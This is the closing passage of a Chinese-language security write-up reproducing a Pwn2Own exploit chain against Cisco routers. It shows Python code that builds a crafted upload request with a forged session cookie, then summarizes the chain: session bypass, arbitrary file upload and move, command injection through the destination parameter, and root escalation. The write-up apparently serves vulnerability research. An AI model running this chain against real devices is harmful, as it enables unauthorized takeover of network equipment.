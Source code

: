 ```python
payload = b"POST /upload HTTP/1.1\r\n"
payload += b"Host: %s\r\n"%IP
payload += b"Accept: application/json, text/plain, */*\r\n"
payload += b"optional-header: header-value\r\n"
payload += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36\r\n"
payload += b"Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryz6gIo5kcTkAlkCwX\r\n"
payload += b"Content-Length: %s\r\n"%(str(len(body)))
payload += b"Origin: http://192.168.250.173\r\n"
payload += b"Referer: http://192.168.250.173/index.html\r\n"
payload += b"Accept-Encoding: gzip, deflate\r\n"
payload += b"Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7\r\n"
payload += b"Cookie: %s\r\n"%fake_session
payload += b"Connection: close\r\n"
payload += b"\r\n"
payload += body.encode('utf-8')

p.send(payload)

p.interactive()
```

提权就很简单了，具体的原理不讲了，类似于sudo这类的提权，按照上面的demo，一步一步操作就可以了。

起服务失败的也可以在公网上找一台设备，试一试（拒绝违法行为）也可以本地调试，本地调试cgi的方法可以参考《家用路由器的0day挖掘》，主要是在启动qemu-static之前，先把环境变量设置好，这里不太好处理的是main函数里面的一个pharase函数，加上漏洞逻辑清晰，所以不太建议本地调试，找个模拟环境打一下，开了telnetd就行了。

0x05 总结
=======

在突破到控制到提权的过程中，利用的链子中存在很多漏洞，在思科官网可以看到，此次的pwn2own对Cisco路由器也是花样很多。  
除了以上的方法还有很多的利用可以学习，大概的CVE编号都在2022-20700--2022-20710左右。还有一些师傅利用device更新之类的方法，也是非常有意思。  
再次总结上面的利用：

1. conf配置文件存在session绕过和任意文件上传，利用这个可以过掉第一部分的验证（只需要伪造session即可）
2. 第二次session验证依然存在问题，验证校验了session的内容，即只能存在数字字母（base64）但是在获取session的时候允许多个session的出现，用分号隔开取最后一个有效，这就导致我们可以输入多个session，绕过2此验证。
3. 之后有一个任意文件移动，这个可以和任意文件上传一起利用，也可以绕过即可，主要注意filname，filepath等参数的合法性。
4. Rce，输入的destination逃逸引号即可
5. 提权利用的是执行confd时候的root权限，且可以创建移动文件，精心构造的输入和show等指令可以让用户获得root权限。

总的来说复现感觉很好，Cisco提供的Nginx和详细的资料让模拟环境变得较为简单，poc也是在模拟环境下一手编写，从搭建环境到拿到root权限的感觉很好。